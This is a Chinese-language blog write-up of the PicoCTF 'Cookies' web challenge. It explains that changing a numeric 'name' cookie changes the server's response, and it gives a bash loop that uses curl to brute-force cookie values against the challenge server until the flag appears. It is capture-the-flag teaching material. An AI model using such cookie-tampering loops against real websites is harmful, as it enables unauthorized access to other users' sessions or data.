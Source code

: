 ```yaml
---
title: PicoCTF - Cookies
published: 2024-05-14
tags: [PicoCTF]
category: Write Up
draft: false
password: Cookies
abstract: 喜歡有巧克力豆的餅乾
message: 就跟你講吧 ! 密碼是 Cookies
---
```


# PicoCTF - Cookies
## 題目:
![image](https://hackmd.io/_uploads/SyWLEKT66.png)
>  誰不愛Cookies? 找出最好的那一個餅乾


---

1. 進入頁面後看到
![image](https://hackmd.io/_uploads/HknnHYaT6.png)
直接輸入 "snickerdoodle" 觀察 Cookies 數值變化

2. 觀察到 Cookies 的數值從 -1 變為 0
![image](https://hackmd.io/_uploads/H19qwtTTT.png)

3. 改成 1 後 /check 底下重新整理後變為 Chocolate Clip cookies
![image](https://hackmd.io/_uploads/HJxWdY66p.png)

### 解題
這題目唯一的變數就是 name 的值 , 而增加值會跑出不同總類的餅乾 , 題目說要找出最好的餅乾 , 所以這邊我使用 Brute force 來看能不能取得其他資料

:::info
#### 使用工具 Curl
參數
1. -H 添加 HTTP 請求的 HEAD
2. -s 不輸出錯誤和進度訊息
3. -L 讓 Curl 隨著伺服器重定向
4. 向目標發出 HEAD 請求 , 並且把 HEAD打印出來
:::

使用 Bash 寫個簡單的腳本來自動過濾結果

```=bash
for i in {1..20}; 
do

con=$(curl -s http://mercury.picoctf.net:29649/ -H "Cookie: name=$i; Path=/" -L)

if ! echo "$con" | grep -q "Not very special"; then
#grep -q 用來找尋是否出現該字串 , 找到的話為 True , 由於有這段話代表說尚未找尋到有用的資料 , 所以 if !會反轉輸出結果為 False 以便執行 then後面的語句  
echo "Cookie $i is special"

echo $con | grep "pico"

break

fi

done

```
最後輸出得到結果為
![image](https://hackmd.io/_uploads/BJGlpY6ap.png)



---
### 所需知識
1. 編輯自動化腳本 如Bash,Python etc...
2. 網站請求相關知識 如:HEAD,POST,重定向 etc...
3. Linux指令熟悉 如 grep
4. ~~通靈~~

